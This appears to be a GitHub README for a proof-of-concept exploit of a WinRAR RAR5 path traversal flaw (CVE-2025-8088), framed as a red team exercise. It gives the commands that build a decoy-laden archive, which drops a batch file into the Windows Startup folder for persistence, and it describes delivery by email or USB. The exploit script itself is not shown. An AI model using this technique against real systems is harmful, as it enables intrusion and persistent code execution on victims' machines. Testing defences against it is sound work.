



# CVE-2025-8088 - WinRAR Path Traversal Exploit (PoC & Red Team Exercise)

## 🧨 CVE Overview

[**CVE-2025-8088**](https://nvd.nist.gov/vuln/detail/CVE-2025-8088) is a **path traversal vulnerability** in **WinRAR v7.12 and earlier** (RAR5 format).  
It allows a specially crafted `.rar` archive to **bypass directory traversal protections** and drop files **outside the extraction directory**, including sensitive Windows directories like:

- `%APPDATA%\Microsoft\Windows\Start Menu\Programs\Startup`
- `C:\Windows\System32`
- `C:\Users\<user>\Documents`

This can lead to:
- **Code execution on reboot/login** (if dropped in `Startup`)
- **Privilege escalation**
- **Persistence via autoruns**

> 🛑 The issue lies in how WinRAR handles RAR5 entries with Alternate Data Streams (ADS) and header tampering.

---


## 🎯 Simulation Objective

Simulate a threat actor delivering a **malicious RAR archive** via **email or USB**, which:

1. Appears benign with decoy content.
2. On extraction, uses a **RAR5 path traversal flaw** to place a file in:
   ```
   %APPDATA%\Microsoft\Windows\Start Menu\Programs\Startup
   ```
3. Establishes **persistence** by executing payload on next login.

This exercise assesses:
- Endpoint protection efficacy
- User behavior on suspicious attachments
- Logging and alerting on unusual file writes or autorun persistence
- Purple team's ability to safely replicate modern file-based intrusion tactics

---  


## 📦 Lab Setup

Tested with: 
| Component | Value |
|----------|-------|
| Target OS | Windows 10/11 (VM) |
| Vulnerable Software | WinRAR 7.11 |
| Python | 3.12.x |

---

## 🛠 Required Tools

- Python 3.x
- WinRAR 7.11 (you can install it from the binary in this folder)
- PowerShell or CMD
- PoC files (downloaded and placed in `C:\cve`)

---

## 📁 Directory Structure

```
C:\cve
│
├── poc.py                # PoC script
├── evil.bat              # Payload (e.g., echo "pwned")
├── decoy.txt             # Harmless file to mask payload
├── evil.rar              # Generated malicious archive
```

---

## ✍️ Payload Examples

### `evil.bat`
```bat
@echo off
echo You got pwned! > %USERPROFILE%\Desktop\pwned.txt
```

### `decoy.txt`
```txt
Nothing to see here.  
This is the only file that the victim will directly see when extracting the malicious archive.  
```

---

## 🚀 Exploit Generation (PoC Execution)

### Step-by-Step Commands:

```powershell
cd C:\cve

# Get actual startup folder (required for absolute path)
$startup = [Environment]::GetFolderPath("Startup")

# Run PoC
python poc.py `
  --decoy decoy.txt `
  --payload evil.bat `
  --drop "$startup" `
  --out evil.rar `
  --placeholder_len 220 `
  --max_up 8 `
  --rar "C:\Program Files\WinRAR\rar.exe"
```

  


---

## 📦 Extracting the Archive

Extract the generated `evil.rar` using vulnerable WinRAR **GUI or CLI**.  


---

## ✅ Expected Outcome

Payload `evil.bat` is dropped into:
```powershell
C:\Users\<user>\AppData\Roaming\Microsoft\Windows\Start Menu\Programs\Startup\
```  

  


On next login or reboot, `evil.bat` executes:  

  


---

## 🔍 Verification

```powershell
# Check Startup contents
dir "$env:APPDATA\Microsoft\Windows\Start Menu\Programs\Startup"

# Check for payload execution result
type "$env:USERPROFILE\Desktop\pwned.txt"
```

---

## 🧼 Cleanup (After Exercise)

```powershell
# Remove dropped payload
Remove-Item "$env:APPDATA\Microsoft\Windows\Start Menu\Programs\Startup\evil.bat" -Force
```  

---


## ✅ Summary

This PoC reliably demonstrates **WinRAR's path traversal flaw** using ADS and header tampering in RAR5.  
It gives red teams a stealthy method to drop and execute code **at extraction time**, and allows blue teams to **validate controls against archive-based persistence techniques**.

Use it carefully. Red team responsibly. 💥
